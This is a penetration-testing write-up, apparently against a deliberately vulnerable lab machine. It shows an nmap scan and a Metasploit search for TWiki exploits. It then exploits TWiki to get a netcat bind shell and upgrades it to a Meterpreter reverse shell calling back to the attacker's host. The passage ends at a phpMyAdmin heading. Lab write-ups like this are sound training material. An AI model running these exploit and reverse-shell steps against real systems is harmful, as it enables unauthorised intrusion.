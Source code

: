 # Writeup

## I. Recon

A quick nmap scan gives us :

```
nmap 192.168.195.128  

Starting Nmap 7.60 ( https://nmap.org ) at 2018-06-02 17:13 CEST
Nmap scan report for 192.168.195.128
Host is up (0.0019s latency).
Not shown: 977 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 4.47 seconds
```

We can see that many services are running on this machine, let's start with the web server running on port 80.

# Port 80

We quickly learn that the web server is Apache 2.2.8. It use PHP 5.2.4 and there is, at the root of the server, a page that contains 5 links to 5 differents apps :

* TWiki
* phpMyAdmin
* Muttilidae
* DVWA
* WebDAV

## TWiki

TWiki is a perl-based web application used to run a collaborative platform. The last stable release is 6.0.2 (released in 2015) but the server run a version that dates back to 2003. 

A little google search reveals quite a few RCE like CVE-2004-1037 and CVE-2008-5305.

Let's have a closer look at these vulnerability by searching if there is any existent metasploit module in relation to TWiki.

```
$ msfconsole 

msf > search twiki

Matching Modules
================

   Name                                    Disclosure Date  Rank       Description
   ----                                    ---------------  ----       -----------
   exploit/unix/http/twiki_debug_plugins   2014-10-09       excellent  TWiki Debugenableplugins Remote Code Execution
   exploit/unix/webapp/moinmoin_twikidraw  2012-12-30       manual     MoinMoin twikidraw Action Traversal File Upload
   exploit/unix/webapp/twiki_history       2005-09-14       excellent  TWiki History TWikiUsers rev Parameter Command Execution
   exploit/unix/webapp/twiki_maketext      2012-12-15       excellent  TWiki MAKETEXT Remote Command Execution
   exploit/unix/webapp/twiki_search        2004-10-01       excellent  TWiki Search Function Arbitrary Command Execution
```

The module `exploit/unix/webapp/twiki_history` seems interesting.

```
msf> use exploit/unix/webapp/twiki_history
msf exploit(unix/webapp/twiki_history) > set RHOST 192.168.195.128
msf exploit(unix/webapp/twiki_history) > set payload cmd/unix/bind_netcat
msf exploit(unix/webapp/twiki_history) > exploit -j
[*] Started bind handler
[*] Command shell session 1 opened (192.168.195.1:56970 -> 192.168.195.128:56789) at 2018-06-03 13:29:23 +0200
```

We get an unix shell, whith `post/multi/manage/shell_to_meterpreter`, we can upgrade this shell to a Meterpreter one.

```
msf exploit(unix/webapp/twiki_history) > use post/multi/manage/shell_to_meterpreter 
msf post(multi/manage/shell_to_meterpreter) > set SESSION 1
msf post(multi/manage/shell_to_meterpreter) > set LHOST 192.168.195.1
msf post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.195.1:4433 
[*] Sending stage (853256 bytes) to 192.168.195.128
[*] Meterpreter session 3 opened (192.168.195.1:4433 -> 192.168.195.128:46146) at 2018-06-03 13:32:10 +0200
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
meterpreter > getuid
Server username: uid=33, gid=33, euid=33, egid=33
```

So we get a nice shell, let's move on now to another web app.

## Phpmyadmin